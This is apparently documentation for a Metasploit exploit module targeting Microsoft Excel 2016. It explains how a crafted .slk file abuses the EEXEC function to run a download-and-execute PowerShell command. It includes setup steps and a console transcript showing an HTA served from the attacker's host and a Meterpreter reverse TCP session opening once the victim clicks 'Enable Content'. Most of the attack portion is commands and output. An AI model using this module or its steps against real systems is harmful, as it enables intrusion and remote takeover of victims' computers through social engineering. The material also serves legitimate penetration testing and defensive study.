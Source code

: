## Introduction

The .slk file format used by Microsoft Excel has the ability to execute local commands via the `EEXEC(cmd)` function. 
This module takes advantage of this 'feature' to run a download-and-execute powershell command in order to spawn a session
on the target.

## Vulnerable Application

  Microsoft Excel (tested on Excel 2016)

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/office_excel_slk`
3. `set LHOST [IP]`
4. `set SRVHOST [IP]`
4. `run`
5. Open generated file and press 'Enable Content' in Excel

## Options

  **FILENAME**

  The name of the generated .slk file. Default is a randomly generated file name.

## Scenarios

### Microsoft Excel 2016 on Windows 10 Build 17763.288

  ```
  msf > use exploit/windows/fileformat/office_excel_slk
  msf exploit(office_excel_slk) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(office_excel_slk) > set lhost 192.168.146.1
  lhost => 192.168.146.1
  msf exploit(office_excel_slk) > set srvhost 192.168.146.1
  srvhost => 192.168.146.1
  msf exploit(office_excel_slk) > run
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 192.168.146.1:4444
  [+] msf.doc stored at /Users/carter/.msf4/local/msf.slk
  [*] Using URL: http://192.168.146.1:8080/default.hta
  [*] Server started.
  ```
  Once the victim opens the file and clicks 'Enable Content' a session should spawn:
  ```
  [*] Sending stage (957487 bytes) to 192.168.146.145
  [*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2019-01-13 16:00:49 -0500
  ```
